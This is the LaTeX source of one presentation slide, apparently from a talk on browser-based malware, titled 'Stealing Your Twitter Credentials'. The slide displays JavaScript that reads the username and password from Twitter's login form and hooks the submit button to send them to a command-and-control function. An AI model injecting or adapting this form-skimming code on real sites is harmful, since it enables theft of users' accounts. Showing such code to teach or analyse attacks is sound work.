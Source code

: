 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{Stealing Your Twitter Credentials}
  \begin{center}
    \begin{tcolorbox}[title=twitter.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        function get_user_pass(){
	      try {
            let username = document.getElementsByClassName('js-username-field email-input js-initial-focus')[0].value;
            let password = document.getElementsByClassName('js-password-field')[0].value;
		    let data = {
			  "auth": {
				timestamp: Date.now(),
				user: username,
				pass: password,
				site: "twitter.com"
			  }
		    };
		    return data;
	      } catch(error){
		    return false;
	      }
        }
        let class_twitter = 'submit EdgeButton EdgeButton--primary EdgeButtom--medium';
        document.getElementsByClassName(class_twitter)[0].addEventListener('click', function(){
          try {
            post_cnc(get_user_pass(), function(data){return true;});
            return true;
          } catch(error){
            return false;
          }});
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
